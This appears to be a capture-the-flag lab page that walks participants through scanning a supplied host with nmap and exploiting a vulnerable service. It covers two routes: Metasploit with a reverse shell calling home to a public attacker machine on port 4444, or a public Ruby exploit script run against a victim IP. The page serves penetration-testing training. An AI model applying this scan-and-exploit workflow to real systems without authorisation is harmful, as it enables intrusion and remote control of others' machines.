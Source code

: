 Use nmap to scan for open ports of the host provided at the play link below, identify applications running on each port, use Metasploit or a exploit script you find online to take advantage of the first vulnerability.

#### Instructions for Completing the Challenge

- Run nmap
- Run Metasploit or an exploit script to take advantage of a vulnerability in the first identified app
- Execute commands remotely
- Find the flag program in the current directory and use it to sign the challenge salt: `./red_ch1.flag <SALT>`

#### Nmap
Nmap is a port scanner and a frequently utilized tool in the pocket of any pen-tester.

##### Installing Nmap
 
For RedHat/CentOS: `sudo yum install nmap`

For Debian/Ubuntu: `apt-get install nmap`

##### Scanning with Nmap

Once nmap is installed you can scan the target host with `nmap <target_host> -Pn -vv`

Other useful parameters are listed below:

* `-p` {PORT_NUMBERS}: Scan ports of the target. It can be a single port number or
a range of ports. Examples: `-p22,23,80` -> scan 22,23 and 80 , `-p8000-9000` -> scan a port range, `-p-` -> scan all the ports
* `-A`: Determine service/version and OS info.

For a detailed list of all parameters available please refer to the [Nmap Reference Guide](https://nmap.org/book/man.html).

Once you run nmap you will uncover a set of open ports. 
What services are running on those ports? Can you navigate to each service in a browser?

#### Metasploit

**Note**: this is the cooler option but you will need to get a bit of setup done and you need your exploit machine to be publicly accessible so the vulnerable machine can "call home".
If you're looking for the quick fix scroll down to the **Exploit Script** option below.

If you have Docker installed you can simply run the metasploit container image. Metasploit should be installed on a EC2 that is internet accessible to allow for the Meterpreter to run. 

##### Docker Install

* For RedHat/CentOS: `sudo yum install docker` or `sudo amazon-linux-extras install docker` (AWS Linux 2)
* For Debian/Ubuntu: `sudo apt install docker.io`

##### Running Docker

* Start Docker with: `sudo service docker start`
* Add permissions to your user to pull and run container images: `sudo usermod -a -G docker ec2-user`
* Logout and re-login.

##### Running the Metasploit Image


Pull metasploit docker image from DockerHub

`docker pull metasploitframework/metasploit-framework`

Run metasploit container, forward port 4444 (needed for reverse shell), make sure those ports are open in security groups etc in your metasploit machine

`docker run -it -p 4444-4450:4444-4450 metasploitframework/metasploit-framework`

Search for the exploit you'd like to use based on nmap results:

`search <name of the application you are looking to exploit>`

Select the exploit you are going to use from the search results:

`use <path/to/the/exploit>`

Set the host IP and port for the target machine
IMPORTANT, if your host is behind a load balancer you should choose 1 of the load balancer IPs for the attack. You can determine the ips with `nslookup <HOST_NAME>`

`set RHOSTS <host>`

`set RPORT <port>`

If your target is running on an encrypted port then you need to enable SSL

`set SSL true`

Set the host IP and port for the machine running Metasploit. This machine should be publicly available and accessible over ports 4444-4450

`set LHOST <remote IP of Metasploit machine>`

`set LPORT 4444`

Run the exploit!

`run`

This may fail in some cases, if it fails once reset the LHOST and run again

`set LHOST <remote IP of Metasploit machine>`
`run`

You should be able to get shell at this point and run commands in the container. 

To drop into a OS shell use the `shell` command.

Can you get the flag? Good luck!

If you want to learn more about Metasploit, please check out this free course from Offensive Security: [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)

#### Exploit Script

Before being ported to Metasploit for easy usage, exploits are usually released in the wild, in an ad-hoc way. Hackers can also take advantage of those to carry out their attacks. 

If the Metasploit option didn't work or you'd like to try another way of exploiting the same vulnerability, here it is:

In this scenario we are going to use a public exploit available on GitHub:

First, you need to clone the repository into your attacker's machine:

`git clone <exploit_github>`

Go to the project folder and install the library dependencies:

`cd <exploit_github>`

`sudo gem install highline`

You should be able to execute the exploit like so:

`./exploit.rb {VICTIM_IP_OR_URL:VICTIM_PORT}`

